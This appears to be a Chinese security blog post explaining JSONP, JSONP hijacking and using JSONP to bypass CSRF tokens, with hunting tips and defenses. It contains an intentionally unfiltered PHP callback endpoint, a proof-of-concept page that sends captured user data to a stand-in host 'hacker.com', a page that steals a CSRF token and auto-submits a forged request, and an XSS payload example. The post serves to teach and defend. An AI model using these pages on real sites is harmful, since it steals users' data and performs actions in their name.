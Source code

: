 ```yaml
---
title: jsonp介绍及其安全风险
comments: true
date: 2022-01-12 22:27:40
tags: ["jsonp", "跨域"]
categories:
- 渗透测试
cover: http://image.geoer.cn/img/image-20220112223806037.png
top_img:
description:
---
```




## 简介

JSONP全称是`JSON with Padding` ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

**JSONP原理：**就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。



比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

原理简介的例子：新建`callback.php`

```php
<?php
    header('Content-type: application/json');
    $callback = $_GET["callback"];
    //json数据
    $json_data = '{"user":"user1111","password":"12345678"}';
    //输出jsonp格式的数据
    echo $callback . "(" . $json_data . ")";
?>

```

新建`test.html`

```html
<!-- test.html -->

<html>
<head>
<title>Test</title>
<meta charset="utf-8">

<script type="text/javascript">
	function fun(obj){
		alert(obj["password"]);
	}
</script>
</head>

<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

访问test.html，页面会执行script，请求`http://127.0.0.1/callback.php?callback=fun`，然后将请求的内容作为参数，执行fun函数，fun函数将请求的内容alert出来。这样我们就实现了通过js操作跨域请求到的资源，绕过了同源策略。

![alert](http://image.geoer.cn/img/image-20220112223611220.png)





## JSONP劫持

> JSONP劫持类似于CSRF漏洞

JSONP使用不当也会造成很多安全问题。

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，Hacker可以自己构造一个页面，诱惑用户去点击（在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上），以此来获取这些信息。



![jsonp漏洞用过程](http://image.geoer.cn/img/image-20220112223806037.png)



POC如：test.html

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
    function fun(obj){
        var myForm = document.createElement("form");
        myForm.action="http://hacker.com/redirect.php";
        myForm.method = "GET";  
        for ( var k in obj) {  
            var myInput = document.createElement("input");  
            myInput.setAttribute("name", k);  
            myInput.setAttribute("value", obj[k]);  
            myForm.appendChild(myInput);  
        }  
        document.body.appendChild(myForm);  
        myForm.submit();  
        document.body.removeChild(myForm);
    }
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

诱导用户去访问此html，会以用户的身份访问`http://localhost/callback.php?callback=fun`,拿到敏感数据，然后执行fun函数，将数据发送给`http://hacker.com/redirect.php`。

然后hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。



## 利用JSONP绕过token防护进行csrf攻击

场景假设：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf_token，然后提交表单，造成csrf漏洞。示例利用代码如下：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。





## JSONP劫持挖掘

首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的)





## 防御

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss





## 参考文章

[jsonp介绍及其安全风险 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/309.html#) 还是这位大佬写得好，小弟基本全是看的他的

[JSONP 劫持原理与挖掘方法 | K0rz3n's Blog](https://www.k0rz3n.com/2019/03/07/JSONP 劫持原理与挖掘方法/)

[JSONP绕过CSRF防护token - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5143)

[分享一个jsonp劫持造成的新浪某社区CSRF蠕虫 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)

[JSONP 安全攻防技术 - 知道创宇 (knownsec.com)](https://blog.knownsec.com/2015/03/jsonp_security_technic/)





